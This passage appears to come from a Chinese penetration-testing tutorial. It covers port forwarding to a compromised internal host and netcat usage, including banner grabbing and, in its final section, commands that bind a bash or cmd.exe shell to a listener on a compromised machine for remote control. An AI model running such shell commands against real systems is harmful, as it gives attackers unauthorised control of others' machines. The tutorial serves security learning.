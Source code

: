 此时访问公网主机 IP 的 5555 端口，就会访问到内网失陷主机的 22 端口了。

## 2、netcat 使用

nc 下载地址：https://eternallybored.org/misc/netcat/

nc 全称 netcat，它的功能很多，这里简单记录下两个常用的功能，其他的比如文件传输、端口扫描等等的就不介绍了，毕竟平时使用频率有一说一还是比较少的。







```none
-l 开启监听状态
-v 显示详细信息
-p 指定监听的本地端口
-k 客户端断掉连接时，服务端依然保持运行
-e 将传入的信息以命令执行
-n 直接使用 IP 地址，不进行 dns 解析过程
```

### 获取 banner 信息

个人觉着最常用的功能，这个不仅可以用来查看 banner 信息，还能用来判断端口是否开放。







```none
nc -vv rhost rport
```







```none
> nc -v 172.16.214.43 22
Connection to 172.16.214.43 port 22 [tcp/ssh] succeeded!
SSH-2.0-OpenSSH_8.4p1 Debian-3
```

### 反弹shell

个人觉着这个也是最常用的功能，可以使用 -e 指定 /bin/bash 进行反弹，也可以直接 -c 指定 bash 或者 cmd

**-e 指定反弹 shell**







```none
# 失陷主机
nc -lvp lport -e /bin/bash		# linux 主机
nc -lvp lport -e c:\windows\system32\cmd.exe 	# windows 主机

# 控制端
nc rhost rport
```
